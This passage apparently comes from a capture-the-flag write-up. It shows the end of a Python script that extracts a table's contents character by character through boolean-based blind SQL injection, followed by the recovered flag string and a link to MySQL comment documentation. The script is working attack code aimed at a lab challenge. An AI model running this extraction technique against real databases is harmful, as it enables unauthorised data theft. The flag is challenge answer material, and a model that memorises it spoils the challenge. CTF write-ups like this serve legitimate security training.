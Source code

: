 ```python
            responses = executor.map(boolean_sqli, [(idx, ascii_val, _context, which) for ascii_val in (string.ascii_letters + string.digits + "_{}")])
            # responses = executor.map(boolean_sqli, [(idx, ascii_val) for ascii_val in (string.ascii_uppercase)])
        for ascii_val, truth in responses:
            if truth:
                result += (ascii_val)
                log.info(f"ROW {ROW} = {result}")
                break
    
    result_rows.append(result)
    return ''.join(result_rows)


# table = flag
# column = fl4g_c0lumN5

table = "flag" #sql_injection('table')
column = "fl4g_c0lumN5" #sql_injection('column', table)
flag = sql_injection('data', column)

print(flag)
```

![[Screenshot 2024-02-09 at 13.33.30.png]]

FLAG: `PROTERGO{f0ac7b6358cf6269dc59819c1bf3019fc6fcc2c5f5567b8187eae87d51f25e8c}`

[^1]: https://dev.mysql.com/doc/refman/8.0/en/comments.html